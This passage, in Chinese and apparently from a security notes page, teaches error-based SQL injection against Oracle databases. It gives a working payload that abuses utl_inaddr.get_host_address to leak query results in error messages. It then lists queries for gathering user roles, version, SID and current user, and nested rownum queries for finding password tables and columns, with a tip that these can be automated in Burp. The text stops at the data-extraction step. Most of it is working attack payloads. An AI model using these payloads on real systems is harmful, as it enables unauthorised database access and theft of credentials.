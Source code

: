 ![ctxsys.drithsx.sn](./ctxsys.drithsx.sn.jpg)

```txt
两个测试都可以得到连接用户为DATASPT

payload:
or 1=utl_inaddr.get_host_address((sql注入语句))

注意：这里要加双层括号，否则会提示缺失表达式；以及注意短路求值机制，我们必须让这条语句得到执行，另外优先级为先and后or

这个函数的本意是获取ip地址，但是如果传递参数无法得到解析就会返回一个oracle错误并显示传递的参数。我们传递的是一个sql语句所以返回的就是语句执行的结果。oracle在启动之后，把一些系统变量都放置到一些特定的视图当中，可以利用这些视图获得想要的东西。通常非常重要的信息有：
1 当前用户权限 select * from session_roles where rownum=1
2 当前数据库版本 select banner from sys.v_$version where rownum=1
3 服务器出口IP 用utl_http.request 可以实现
4 服务器监听IP select utl_inaddr.get_host_address from dual
5 服务器操作系统 select member from v$logfile where rownum=1
6 服务器sid 远程连接的话需要，select instance_name fromv$instance; ' n
7 当前连接用户 select SYS_CONTEXT ('USERENV', 'CURRENT_USER')from dual
信息收集完毕，开始注入，先来查找可能含有后台密码信息表和列：
查看名字类似于PASSWORD的表有几个：
select count(*) from user_tab_columns where column_name like '%25PASS%25'

接下来，鉴于使用where rownum=1 and table_name<>'前面查到的表名'的方法需要在不等号的后面不断地添加新的表名，操作起来较为繁琐，这里给出了另外的一种注入方法：
select data from (select rownum as limit,table_name||'--->'||column_name as data from user_tab_columns where column_name like '%PASSWORD%') where limit =2   //由于rownum的伪列性质，这里要嵌套，不然会提示未选定列

这样只要修改一个数字即可实现得到信息，方便挂载到burp上自动来跑：

查列名：
select data from (selEct rownum as limit,column_name as data from user_tab_columns whEre table_name=你刚才查到的tablename) whEre limit =1

查数据：
```